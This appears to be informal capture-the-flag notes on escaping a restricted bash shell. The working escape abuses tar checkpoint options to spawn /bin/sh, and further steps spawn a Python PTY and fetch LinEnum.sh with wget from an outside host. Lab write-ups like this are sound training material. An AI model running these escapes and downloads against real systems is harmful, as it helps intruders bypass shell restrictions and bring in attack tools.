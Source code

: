 ```
declare -x USER="ayush"
declare -x XDG_RUNTIME_DIR="/run/user/1001"
declare -x XDG_SESSION_ID="c4"
declare -x engine="pdftex"
declare -x progname="pdflatex"

```

```
export SHELL="/bin/bash"
export SHELL="/bin/bash"
rbash: SHELL: readonly variable
export USER="WWW-DATA" =fail

echo $PATH returns /home/ayush/.app

echo os.system("/bin/bash")
echo os.system"/bin/bash"

python -c "import os; os.system('cp');"

cannot redirect output
cd is restricted
can't use /
tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
access to tar

tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
/bin/ls
/bin/cat


```

ESCAPE FROM AYUSH JAIL

Escaping from this jail was pretty tough because none of the basic techiquies worked for me. 
Able to use the tar wild card method to generate a shell. i believe this is a easter egg to tartarsauce.

```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

BEYOND THE ESCAPE

upgrading tty to something easier to use, 

```
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
```

next step transfer off mail

```
/usr/bin/python -m SimpleHTTPServer 9030
/usr/bin/wget http://10.10.14.14:9030/LinEnum.sh  
```
